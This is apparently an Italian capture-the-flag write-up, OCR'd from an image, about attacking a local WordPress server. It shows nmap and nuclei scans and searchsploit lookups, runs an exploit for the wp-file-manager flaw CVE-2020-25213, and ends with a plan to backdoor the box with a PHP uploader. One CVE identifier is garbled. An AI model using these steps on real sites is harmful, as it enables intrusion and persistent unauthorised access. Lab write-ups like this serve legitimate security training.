 1. Esegui la scansione del server web interno e trova i plugin vulnerabili utilizzando Nmap o il famoso strumento di scansione per questo CMS .
2. Sfruttare la vulnerabilità utilizzando metasploit o seguendo una qualsiasi POC (proof of concept).
3. Ottieni il flag dell'utente.


```
nmap -sV --script http-wordpress-enum 127.0.0.1 8080
```

```
nuclei -u http://127.0.0.1:8080
```
[CVE-2020-25213] [http] [critical] http://127.0.0.1:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php

 Wordpress Plugin Duplicator 1.3.26
```
searchsploit Wordpress Plugin Duplicator
```
CVE-2018-03-15
CVE-2020-25213

```
-bash-4.4$ cat note.txt
Hi Error!
I've set up a webserver locally so no one outside could access it.
It is for testing purposes only.  There are still a few things I need to do like setting up a custom theme.
You can check it out, you already know what to do.
-Cth
:)
```
```
user=Cth
```

```
searchsploit WP-file-manager
```
	CVE-2020-25213

```
searchsploit -m WP-file-manager
```

```
searchsploit -m 51224 
```

```
python 51224.py http://127.0.0.1:8080/ id 
```

Farò un backdoor a questa casella con un uploader di file php. Puoi scaricare il file php
```
nano mini.php
```
